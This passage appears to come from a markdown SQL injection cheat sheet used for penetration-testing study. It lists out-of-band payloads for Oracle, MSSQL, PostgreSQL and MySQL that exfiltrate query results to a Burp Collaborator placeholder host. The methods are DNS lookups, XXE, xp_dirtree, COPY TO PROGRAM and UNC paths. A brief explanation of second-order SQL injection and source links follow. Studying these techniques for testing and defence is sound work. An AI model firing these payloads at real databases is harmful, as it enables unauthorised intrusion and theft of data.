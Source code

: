 ```sql
copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

# MySQL
## The following techniques work on Windows only:
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

**Exfiltration:**
```sql
# Oracle
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

# MSSQL
declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')

# PostgreSQL
create OR replace function f() returns void as $$
declare c text;
declare p text;
begin
SELECT into p (SELECT YOUR-QUERY-HERE);
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
execute c;
END;
$$ language plpgsql security definer;
SELECT f();

# MySQL
## The following technique works on Windows only:  
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

---

## Second-order SQL injection

In second-order SQL injection (also known as **stored SQL injection**), the application takes user input from an HTTP request and stores it for future use. This is usually done by placing the input into a database, but no vulnerability arises at the point where the data is stored. Later, when handling a different HTTP request, the application retrieves the stored data and incorporates it into an SQL query in an unsafe way.

Second-order SQL injection often arises in situations where developers are aware of SQL injection vulnerabilities, and so safely handle the initial placement of the input into the database. When the data is later processed, it is deemed to be safe, since it was previously placed into the database safely. At this point, the data is handled in an unsafe way, because the developer wrongly deems it to be trusted.


[^demo]: [Test SQL queries online against the specified DB](https://youtu.be/61kf4CEnOZk?si=7heW6R8LN0pkQth3&t=1291), IppSec
[^hacktricks-article]: [No commas bypass](https://book.hacktricks.xyz/pentesting-web/sql-injection#no-commas-bypass), book.hacktricks.xyz
[^ippsec-video]: [SQL Injecting Beyond Strict Filters - Union Without Comma](https://www.youtube.com/watch?v=61kf4CEnOZk), IppSec